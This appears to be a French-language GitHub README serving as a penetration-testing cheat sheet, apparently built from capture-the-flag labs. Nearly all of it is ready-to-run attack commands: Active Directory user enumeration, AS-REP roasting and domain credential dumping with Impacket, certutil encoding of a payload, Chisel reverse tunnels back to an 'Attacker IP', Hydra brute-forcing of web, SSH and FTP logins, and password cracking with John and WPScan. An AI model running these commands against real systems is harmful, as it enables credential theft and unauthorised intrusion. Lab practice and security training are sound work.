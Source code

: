 - [Active Directory](#Active-Directory)
  - [Kerbrute](#Kerbrute)
  - [GetNPUUsers.py](#GetNPUUsers.py)
  - [Secretsdump.py](#Secretsdump.py)
- [Binwalk](#Binwalk)
- [Certutils](#Certutils)
- [Chisel](#Chisel) 
- [Hydra](#Hydra)
  - [WEB](#WEB)
  - [SSH](#SSH)
  - [FTP](#FTP)   
- [JohnTheRipper](#JohnTheRipper)
- [Steghide](#Steghide)
- [WPSCAN](#WPSCAN)
- [7z Deziper avec password](#7z-Deziper-avec-password)


## Active Directory

### Kerbrute
```
kerbute userenum --dc 10.10.117.125 -d spookysec.local user_list.txt
```
### GetNPUsers.py
```
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile user.txt -dc-ip 10.10.117.125 spookysec.local/
```
### Secretsdump.py
```
python3 /opt/impacket/examples/secretsdump.py -just-dc <user>@10.10.117.125
```

<br>
<br>

## Binwalk

```
binwalk <image> -e
```
<br>
<br>

## Certutils

```
certutil -encode payload.exe Encoded-payload.txt
```
<br>
<br>

## Chisel

```
chisel server -p 8001 --reverse
```
```
./chisel_amd64 client 10.50.111.37:8001 R:socks &
```
#### Port distant vers port local

```
./chisel.exe client 10.14.50.100:8001 R:2805:10.10.2.0:2805
```
`10.14.50.100`: Attacker IP
<br>
`8001`: Port établie lors de la création du serveur
<br>
<br>
`2805:10.10.2.0:2805` -> Bind le port 2805 de la machine Attacker au port 2805 de la machine distante 

<br>
<br>

## Hydra
### WEB
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.0.156 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```
### SSH
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.0.156
```
### FTP
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ftp://<ip>
```
<br>

## JohnTheRipper

```
zip2john file.zip > zip.hash 
john file.zip zip.hash

```
```
zip2john
ssh2john
rar2john
```

<br>

## Steghide

```
steghide extract -sf image.jpg
```

<br>

## WPSCAN

```
wpscan --url 10.10.188.11 -U kwheel -P /usr/share/wordlists/rockyou.txt
```
Fonctionne aussi avec une liste de user pour l'option `-U`

<br>

## 7z Deziper avec password

```
7z e file.zip
```
